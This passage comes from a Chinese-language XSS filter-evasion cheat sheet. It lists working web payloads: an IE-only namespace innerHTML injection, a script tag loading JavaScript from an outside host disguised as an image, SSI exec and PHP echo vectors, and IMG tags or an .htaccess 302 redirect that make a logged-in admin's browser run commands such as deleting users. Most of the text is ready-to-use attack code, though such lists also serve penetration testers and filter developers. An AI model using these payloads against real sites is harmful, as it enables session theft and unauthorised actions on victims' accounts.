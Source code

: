 这种攻击仅在 IE 中有效，请记住你需要在 HTML 和 BODY 标签之间：

```html
<HTML><BODY>
<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">
<?import namespace="t" implementation="#default#time2">
<t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>">
</BODY></HTML>
```

（这就是 Grey Magic 黑入 Hotmail 和 Yahoo 的方式！）

### 假设只能插入几个字符并且过滤 `.js`

这种攻击允许你将 JavaScript 文件重命名为图像作为 XSS 向量：

```html
<SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT>
```

### SSI（服务器端包含）

这需要在服务器上安装 SSI 才能使用这个 XSS 向量。我可能不需要提及，但如果你可以在服务器上运行命令，毫无疑问会有更严重的问题：

```js
<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://xss.rocks/xss.js></SCRIPT>'"-->
```

### PHP

这种攻击需要在服务器上安装 PHP。再次强调，如果你可以远程运行任何脚本，可能会有更严重的问题：

```php
<? echo('<SCR)';
echo('IPT>alert("XSS")</SCRIPT>'); ?>
```

### IMG 嵌入命令

这种攻击仅在注入（如网页论坛）到受密码保护的网页中并且密码保护对同一域上的其他命令有效时起作用。这可用于删除用户、添加用户（如果访问页面的用户是管理员）、将凭据发送到其他地方等。这是较少使用但更有用的 XSS 向量之一：

```html
<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">
```

#### IMG 嵌入命令 第二部分

这更可怕，因为没有任何标识符使其看起来可疑，除了它不是托管在你自己的域上。该向量使用 302 或 304（其他也可以）将图像重定向回命令。所以一个普通的 `<IMG SRC="httx://badguy.com/a.jpg">` 实际上可能是运行命令的攻击向量，作为查看图像链接的用户。以下是在 Apache 下实现该向量的 `.htaccess` 行：

```log
Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser
```

（感谢 Timo 提供部分内容）

### Cookie 操纵
